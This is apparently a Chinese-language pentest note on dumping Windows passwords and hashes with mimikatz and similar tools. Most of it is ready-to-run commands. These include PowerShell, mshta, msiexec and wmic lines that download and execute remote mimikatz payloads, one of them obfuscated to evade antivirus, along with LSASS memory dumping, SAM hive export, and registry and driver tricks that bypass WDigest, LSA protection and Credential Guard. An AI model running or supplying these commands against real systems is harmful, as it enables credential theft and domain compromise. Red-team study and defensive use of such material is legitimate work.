




密码抓取
本文介绍几种抓取密码的工具以及一些高版本操作系统绕过方式。
攻击机：kali：192.168.43.30
客户机：win7：192.168.43.78
客户机DC：win2012：192.168.43.211
下列有关在win7上没有复现成功的，在win2008上复现成功，没有贴图。
1.mimikatz
github项目：https://github.com/gentilkiwi/mimikatz
1.可执行程序使用
分为32位和64位的架构程序，配有动态链接库和sys文件，在目标机器中应该将这两个文件均传上去。

一些简单的用法
1 | CRYPTO::Certificates-列出/导出凭证。 |
2.msf加载mimikatz
先利用木马反弹一个会话，以下操作均是在msf5下完成，不同版本命令有差异。
加载mimikatz：load mimikatz
wdigest列出目标的明文密码，更低版本Windows能直接列出来

tspkg：需要system权限，尝试列出目标明文密码，不一定成功
msv：抓取密码的hash
mimikatz_command -f ：自定义命令，使用mimikatz可执行程序的命令，例如抓取明文密码
3.cs加载mimikatz
利用木马得到一个会话后，开启mimikatz
开启后，会默认抓取目标主机明文密码
cs抓取后的信息均可以在凭证获取
Hashdump-抓取密码的hash
4.powershell版mimikatz
powershell地址： https://github.com/DanMcInerney/Invoke-Cats
1.落地执行
导入模块：Import-Module .\Invoke-Cats.ps1
执行命令：Invoke-Cats -pwds
2.内存执行，远程加载
powershell.exe "IEX (New-Object Net.WebClient).DownloadingString(powershell_adress);Invoke-Cats -pwds"
这个脚本执行出错不知道为啥。。。
另外一个版本powershell：https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-ReflectivePEInjection.ps1
执行
1 | powershell.exe -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.101/Invoke-ReflectivePEInjection.ps1');Invoke-ReflectivePEInjection -PEUrl http://192.168.0.101/mimikatz.exe -ExeArgs "sekurlsa::logonpasswords" -ForceASLR |
3.混淆后远程加载
powershell -c " ('IEX '+'(Ne'+'w-O'+bject Ne'+'t.W'+'ebClien'+'t).Do'+'wnloadingS'+'trin'+'g'+'('+'1vchttp://'+'192.168.1'+'.101/'+'Inv'+'oke-Mimik'+'a'+'tz.'+'ps11v'+'c)'+';'+'I'+'nvoke-Mimika'+'tz').REplaCE('1vc',[STRing][CHAR]39)|IeX"
5 .NET2.0加载mimikatz
将katz.cs放置于C:\Windows\Microsoft.NET\Framework\v2.0.50727
在powershell下执行
1 | $key = 'BwIAAAAkAABSU0EyAAQAAAEAAQBhXtvkSeH85E31z64cAX+X2PWGc6DHP9VaoD13CljtYau9SesUzKVLJdHphY5ppg5clHIGaL7nZbp6qukLH0lLEq/vW979GWzVAgSZaGVCFpuk6p1y69cSr3STlzljJrY76JIjeS4+RhbdWHp99y8QhwRllOC0qu/WxZaffHS2te/PKzIiTuFfcP46qxQoLR8s3QZhAJBnn9TGJkbix8MTgEt7hD1DC2hXv7dKaC531ZWqGXB54OnuvFbD5P2t+vyvZuHNmAy3pX0BDXqwEfoZZ+hiIk1YUDSNOE79zwnpVP1+BN0PK5QCPCS+6zujfRlQpJ+nfHLLicweJ9uT7OG3g/P+JpXGN0/+Hitolufo7Ucjh+WvZAU//dzrGny5stQtTmLxdhZbOsNDJpsqnzwEUfL5+o8OhujBHDm/ZQ0361mVsSVWrmgDPKHGGRx+7FbdgpBEq3m15/4zzg343V9NBwt1+qZU+TSVPU0wRvkWiZRerjmDdehJIboWsx4V8aiWx8FPPngEmNz89tBAQ8zbIrJFfmtYnj1fFmkNu3lglOefcacyYEHPX/tqcBuBIg/cpcDHps/6SGCCciX3tufnEeDMAQjmLku8X4zHcgJx6FpVK7qeEuvyV0OGKvNor9b/WKQHIHjkzG+z6nWHMoMYV5VMTZ0jLM5aZQ6ypwmFZaNmtL6KDzKv8L1YN2TkKjXEoWulXNliBpelsSJyuICplrCTPGGSxPGihT3rpZ9tbLZUefrFnLNiHfVjNi53Yg4=' |
然后cmd执行
1 | C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe /r:System.EnterpriseServices.dll /out:katz.exe /keyfile:key.snk /unsafe katz.cs |
没复现成功。
6.js加载mimikatz
shell地址：https://github.com/tyranid/DotNetToJScript
直接执行：cscript mimikatz.js
但是已经过不了杀软，绕过方法参考：https://evi1cg.me/archives/AMSl_bypass.html
没有找到js文件
7.msiexec加载mimikatz
mimikatz.mi：https://github.com/homjxi0e/PowerScript/blob/master/Mimikatz.2.1.1/X64/Mimikatz%20x64.msi
远程执行
1 | PS:> msiexec.exe /passive /i https://github.com/homjxi0e/PowerScript/raw/master/Mimikatz.2.1.1/X64/Mimikatz%20x64.msi /norestartcmd:> msiexec.exe /passive /i https://github.com/homjxi0e/PowerScript/raw/master/Mimikatz.2.1.1/X64/Mimikatz%20x64.msi /norestart |
cmd执行
1 | msiexec /passive /i C:\Users\Administrator\Downloads\Mimikatz.msi |
没有找到msi文件
8..NET4.0加载mimikatz
mimikatz.xml：https://raw.githubusercontent.com/3gstudent/msbuild-inline-task/master/executes%20mimikatz.xml
cmd执行
1 | cd C:\Windows\Microsoft.NET\Framework64\v4.0.30319 |
加载mimikatz成功
9.xsl加载mimikatz
本地执行：wmic os get /format:"mimikatz.xsl"
远程加载：wmic os get /format:"http://127.0.0.1/mimikatz.xsl"
10.sct加载mimikatz
mimikatz.sct：https:/gist.github.com/caseysmithrc/3fe7a8330a74b303562eb494d47e79c5/raw/9336891fc81ac71bfff3c8fd4a8816dead30964e/mimikatz.sct
cmd执行
1 | mshta.exe javascript:a=GetObject("script:https://gist.github.com/caseysmithrc/3fe7a8330a74b303562eb494d47e79c5/raw/9336891fc81ac71bfff3c8fd4a8816dead30964e/mimikatz.sct").Exec(); log coffee exit |
没有找到sct文件
2..windows下常见的抓取hash工具
工具下载： https://github.com/TheKingOfDuck/hashdump
1.QuarksPwDump
直接在cmd下启动程序，会显示出所支持的用法
执行QuarksPwDump.exe -dha
2.wce
执行wce.exe -w
3.pwdump7
有一个依赖文件，经常报错，不推荐
将抓取到的hash解ntlm
4.LaZagne
https://github.com/AlessandroZ/LaZagne
支持浏览器、数据库等等很多，但是由python编写，文件比较大
获取所有密码：laZagne.exe all
只获取浏览器记住的密码：laZagne.exe browsers
只获取firefox记住的密码：laZagne.exe browsers -firefox
将输出保存到文件：laZagne.exe all -oN
执行完该命令后会发现当前目录下多了一个文件，文件名类似：credentials_23042019_225124.txt
还可以加参数-output指定输出到哪个目录，如：laZagne.exe all -quiet -oA -output C:\Users\Werner\Desktop
若是知道用户密码，可以用参数-password输入，这样就可能解密出更多明文密码，如：laZagne.exe all -password P@5sw0rd
5.sharpdump
https://github.com/GhostPack/SharpDump
转储LSASS：

在结果中给出了一种结合mimikatz的用法，但是需要手都转储lsass进程

将转储文件拿出来用mimikatz解出密码，在mimikatz中依次执行以下命令
1 | sekurlsa::minidump lsass.DMP |
另外一种用法转储特定的进程ID：SharpDump.exe 8700
6.procdump
cmd下执行：procdump.exe -accepteula -ma lsass.exe lsass.dmp
这款工具也是直接dump下lsass进程，后续解密和sharpdump解密一样放在mimikatz中
7.sqldumper
微软自己家的东西,如果目标安装了mssql，可以通过sqldumper.exe来dump lsass进程，没安装也可以手动上传。 sqldumper的默认路径：C:\Program Files\Microsoft SQL Server\110\Shared
cmd下执行：for /f "tokens=2" %i in('tasklist /FI "IMAGENAME eq lsass.exe" .NH') do sqldumper.exe %i 0 0x01100
这种方法没做出来，不过可以分开来
1.先找到lsass.exe的进程id:tasklist|findstr "lsass.exe"
2.导出dmp文件：sqldumper.exe <pid> 0 0x01100
也报错，你妈的佛了。。。
8.rundll32
微软自己家的东西
cmd下执行：for /f "tokens=2" %i in('tasklist /FI "IMAGENAME eq lsass.exe" .NH') do rundall32.exe C:\windows\System32\comsvcs.dll MiniDump %i .\lsass.dmp full
报错。。。
9.SAM数据库
sam文件：是用来存储本地用户账号密码的文件的数据库
system文件：里面有对sam文件进行加密和加密的密钥
原理
读取HKLM\SYSTEM，获得syskey：
syskey的由来： 读取注册表项HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa下的键值JD、Skew1、GBG和Data中的内容，拼接成syskey
syskey的作用：Syskey中的加密的是账号数据库，也就是位于%SystemRoot%\system32\config的SAM文件
简单的说，导出sam和system文件，利用mimikatz解密
1 | reg save hklm\sam sam.hiv |
3.常见的服务密码抓取
1.Navicat
工具地址：https://github.com/HyperSine/how-does-navicat-encrypt-password
Navicat是由PremiumSoft CyberTech Ltd.为MySQL，MariaDB，Oracle，SQLite，PostgreSQL和Microsoft SQL Server生产的一系列图形数据库管理和开发软件。它具有类似Explorer的图形用户界面，并支持本地和远程数据库的多个数据库连接。它的设计旨在满足从数据库管理员和程序员到为客户提供服务并与合作伙伴共享信息的各种企业/公司的各种受众的需求。
当选择保存密码后，navicat会将这些信息加密后保存在注册表中
将工具集成到cs后，反弹一个会话
执行之后，会自己抓取
若目标未安装navicat，会提示
2.lazage抓取浏览器密码
目标及执行：lazagne.exe broswers 会尝试抓取浏览器存储的密码，参考上面。
3.sharpdecryptpwd
可以抓取navicat、sql server management studio、X manager–>xshell、xftp、 Teamview、Filezile、winscp的密码
4.数据库密码抓取
查看配置文件，端口转发连接到数据库
4.密码抓取绕过（win10及2012版本之后）
1.2012操作系统之后的绕过抓取
直接用mimikatz抓取的密码会显示null
绕过方式
1.操作注册表
1.修改注册表键值
通过修改注册表，当键值=1时，Wdigest Auth保存明文口令，为0则不保存明文，再次登录生效
执行以下命令修改·注册表键值：
1 | reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f |
关闭
1 | reg add HKLMSYSTEMCurrentControlSetControlSecurityProvidersWDigest /v UseLogonCredential /t REG_DWORD /d 0 /f |
执行以下命令模拟用户锁屏：rundll32.exe user32.dll,LockWorkStation
重新登陆以后在使用mimikatz进行抓取密码
2.保存注册表
使用注册表导出Hash，再通过impacket进行离线读取
1 | reg save HKLM\SYSTEM sys.hiv |
2.绕过kb2871997
这个补丁的作用是防止攻击者抓取明文密码，绕过方式如下。
脚本地址： https://github.com/3gstudent/Dump-Clear-Password-after-KB2871997-installed
使用之前需要在c盘新建一个test/pwd.txt文件
执行以下命令会注销掉操作系统，让用户重新登录
1 | PowerShell.exe -ExecutionPolicy Bypass -File dump.ps1 |
3.protected users
受保护用户是一个新的域全局安全组，对于该组的成员，windows 8.1设备或Windows Server2012 R2主机不会缓存受保护用户不支持的凭据。如果这些组的成员登录到运行早于Windows8.1的Windows版本的设备，则该组的成员没有其他保护。登录到Windows 8.1设备和Windows Server 2012 R2主机的受保护用户组的成员不能再使用:
1.默认凭据委派(CredssP )-即使启用了”允许委派默认凭据”策略，也不会缓存纯文本凭据
2.windows摘要–即使启用明文凭掘也不会进行缓存
3.NTLM - NTOWF未媛存
4.Kerberos长期密钥-Kerberos票证授予票证(TGT)在登录时获取，无法自动重新获取
5.离线登录-未创建缓存的登录验证程序
如果域功能级别是Windows Server 2012 R2，则该组的成员不能再:
1.使用NTLM身份验证进行身份验证
2.在Kerberos预身份验证中使用数掘加密标准(DES )或RC4密码套件。
3.通过使用无约束或约束委派来委派
4.更新用户票证(TGT)超过最初的4小时生命周期
如果此时直接使用mimikatz的SEKURLSA::LogonPasswords抓取会出现乱码
绕过方式：使用：sekurlsa::ekeys
4.Additional LSA Protection
LSA(包括本地安全机构服务器服务(LSASS )进程）验证用户是否进行本地和远程登录，并实施本地安全策略。Windows 8.1操作系统为LSA提供额外保护，以防止未受保护的进程读取内存和代码注入。启用此功能后无法把debugger attach到进程上。在win8.1及2012 r2以上有效。
启用lsa
注册表位置：
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
新建-DWORD（32）值，名称为 RunAsPPL,数值为 00000001，重启系统生效。
在配置了lsa后，执行misc::skeleton会报错

绕过
mimikatz首先加载驱动：!+
然后先执行：!processprotect /process:lsass.exe /remove
验证misc::skeleton（可省略）
再使用SEKURLSA::LogonPasswords抓取明文密码
5.Credentials Guard
credentials Guard是win10中引入的新功能，据称能保护NTLM密码哈希值，Kerberos票证授予票证和应用程序存储的凭据。该进程是唯一能使用明文凭据的进程，它的原理大概是这样:当NTLM认证过程中需要用到例如ntlm hash这类凭证的时候（第三步)，将Credentials Guard视为黑箱，由lsass等进程输入生成NetNTLM所需的信息（第二步收到的challenge等等)，由CG处理并输出结果，而CG本身内存禁止读取，使得mimikatz这一类工具无从下手:
绕过方式
memssp SSP的二进制形式是DLL，提供用来处理身份认证的接口(SSPI)。如果我们无法从内存中直接获取凭据，那么通过注册一个ssp来处理用户登录时输入的凭据也是一种办法。mimikatz直接在内存中加栽自定义的ssp dll，能够在用户登录时获取到明文凭据.
mimikatz内存注入sSp
等待用户再次登录。登录后可以在c:/windows/system32/mimilsa.log下查看明文密码